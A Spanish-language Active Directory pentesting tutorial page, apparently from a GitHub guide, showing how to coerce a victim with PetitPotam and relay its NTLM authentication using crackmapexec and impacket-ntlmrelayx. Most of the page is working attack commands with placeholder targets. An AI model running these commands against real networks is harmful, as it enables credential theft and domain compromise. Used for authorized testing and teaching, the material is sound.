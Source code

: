 # Coercionar a la Víctima con PetitPotam

Si la vítima es vulnerable a petit potam podemos capturar las credenciales de la cuenta del equipo utilizando la técnica de NTLM RELAY:
[NTLM_relay](no_credentials/NTLM_relay/): _Crackmapexec | Responder | ntlmrelayx | Proxychains | Impacket-secretsdump | lsassy | DonPAPI | impacket-smbclient | impacket-smbexec_

```Bash
# Comprobar si la víctima es vulnerable a petitpotam con crackmapexec
poetry run crackmapexec smb <Rango IP> -M petitpotam
# Ejecutamos petitpotam del repositorio de Github: https://github.com/topotam/PetitPotam
python petitpotam.py <IP atacante> <DNS del equipo vísctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/uno_credentials/petitpotam1.png?raw=true "petitpotam")

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/uno_credentials/petitpotam2.png?raw=true "NTLM relay petitpotam")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/uno_credentials/petitpotam3.png?raw=true "NTLM relay petitpotam")
